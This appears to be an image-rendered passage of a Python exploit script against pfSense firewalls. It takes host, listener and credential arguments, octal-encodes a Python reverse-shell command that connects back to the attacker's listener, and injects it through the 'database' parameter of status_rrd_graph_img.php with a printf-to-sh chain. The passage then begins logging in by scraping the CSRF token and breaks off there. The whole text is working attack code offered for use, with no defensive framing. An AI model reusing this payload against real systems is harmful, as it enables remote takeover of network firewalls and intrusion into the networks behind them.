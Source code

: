 ```python

parser = argparse.ArgumentParser()
parser.add_argument("--rhost", help = "Remote Host")
parser.add_argument('--lhost', help = 'Local Host listener')
parser.add_argument('--lport', help = 'Local Port listener')
parser.add_argument("--username", help = "pfsense Username")
parser.add_argument("--password", help = "pfsense Password")
args = parser.parse_args()

rhost = args.rhost
lhost = args.lhost
lport = args.lport
username = args.username
password = args.password


# command to be converted into octal
command = """
python -c 'import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("%s",%s));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);'
""" % (lhost, lport)


payload = ""

# encode payload in octal
for char in command:
	payload += ("\\" + oct(ord(char)).lstrip("0o"))

login_url = 'https://' + rhost + '/index.php'
exploit_url = "https://" + rhost + "/status_rrd_graph_img.php?database=queues;"+"printf+" + "'" + payload + "'|sh"

headers = [
	('User-Agent','Mozilla/5.0 (X11; Linux i686; rv:52.0) Gecko/20100101 Firefox/52.0'),
	('Accept', 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8'),
	('Accept-Language', 'en-US,en;q=0.5'),
	('Referer',login_url),
	('Connection', 'close'),
	('Upgrade-Insecure-Requests', '1'),
	('Content-Type', 'application/x-www-form-urlencoded')
]

# probably not necessary but did it anyways
headers = collections.OrderedDict(headers)

# Disable insecure https connection warning
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

client = requests.session()

# try to get the login page and grab the csrf token
try:
	login_page = client.get(login_url, verify=False)

	index = login_page.text.find("csrfMagicToken")
	csrf_token = login_page.text[index:index+128].split('"')[-1]

```